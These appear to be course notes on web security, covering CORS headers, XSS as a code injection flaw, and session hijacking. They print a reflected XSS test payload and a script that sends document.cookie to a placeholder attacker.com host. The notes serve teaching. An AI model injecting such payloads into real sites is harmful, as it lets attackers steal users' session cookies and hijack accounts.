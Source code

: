 ### Cross-site scripting(XSS)

#### Cross-Origin Resource Sharing (CORS) 
- Allow origin https://site-a.com to read data:
     - Access-Control-Allow-Origin: https://site-a.com
- Allow any origin to read data:
    - Access-Control-Allow-Origin: *

Code and data being mixed in ways it is not intended to.

The Myspace incident.

XSS is a code injection vulnerability
- Untrusted user data with code combines for an XSS.


***Same origin policy prevents cross-origin DOM manipulation***

### XSS is a "code injection" vulnerabilty

- Code injection is caused when untrusted user data unexpectedly becomes code
- Any code that combines a command with user data is susceptible.
- In cross site scripting (XSS), the unexpected code is JavaScript in an HTML document
- In SQL injection, the unexpected code is extra SQL commands included a SQL query string

*What happens next?*

- If successful, attacker gains the ability to do anything the target can do through their browser
- Can view/exfiltrate their cookies
- Can send any HTTP request to the site, with the user's cookies!

### A Malicious search
- User input:`<script>alert(document.cookie)</script>`
- URL: example.com/?search=%3Cscript%3Ealert(document.cookie)%3C/script%3E
- Server input:
`<script>alert(document.cookie)</script>`
- Resulting page:
`<p>Search result for <script>alert(document.cookie)</script></p>`

### Session hijacking with XSS
- What if website is vulnerable to XSS?
    - Attacker can insert their code into the webpage 
    - At this point, they can easily exfiltrate the user's cookie

```HTML
<script>
    new Image().src =
        'https://attacker.com/steal?cookie=' + document.cookie
</script>
```
- Resulting page:
```HTML
<p>Search result for <script>new Image().src =
'https://attacker.com/steal?cookie=' + document.cookie
</script></p>
```
